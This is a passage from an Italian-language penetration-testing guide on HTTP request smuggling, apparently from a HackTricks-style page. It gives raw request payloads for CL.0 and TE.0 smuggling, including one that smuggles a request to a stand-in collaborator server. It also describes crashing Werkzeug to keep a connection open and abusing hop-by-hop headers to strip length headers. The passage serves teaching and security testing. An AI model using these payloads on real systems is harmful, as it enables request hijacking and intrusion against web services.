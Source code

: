 ```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive

Non-Empty Body
```

#### Scenario TE.0

- Come il precedente ma utilizzando TE
- Tecnica [riportata qui](https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/)
- **Esempio**:
```
OPTIONS / HTTP/1.1
Host: {HOST}
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Transfer-Encoding: chunked
Connection: keep-alive

50
GET <http://our-collaborator-server/> HTTP/1.1
x: X
0
EMPTY_LINE_HERE
EMPTY_LINE_HERE
```
#### Rompere il server web

Questa tecnica è utile anche in scenari in cui è possibile **rompere un server web mentre si legge i dati HTTP iniziali** ma **senza chiudere la connessione**. In questo modo, il **corpo** della richiesta HTTP sarà considerato la **prossima richiesta HTTP**.

Ad esempio, come spiegato in [**questo writeup**](https://mizu.re/post/twisty-python), in Werkzeug era possibile inviare alcuni caratteri **Unicode** e questo avrebbe fatto **rompere** il server. Tuttavia, se la connessione HTTP è stata creata con l'intestazione **`Connection: keep-alive`**, il corpo della richiesta non verrà letto e la connessione rimarrà aperta, quindi il **corpo** della richiesta sarà trattato come la **prossima richiesta HTTP**.

#### Forzare tramite intestazioni hop-by-hop

Abusando delle intestazioni hop-by-hop, potresti indicare al proxy di **eliminare l'intestazione Content-Length o Transfer-Encoding affinché un HTTP request smuggling sia possibile da abusare**.
```
Connection: Content-Length
```
Per **maggiori informazioni sugli header hop-by-hop** visita:
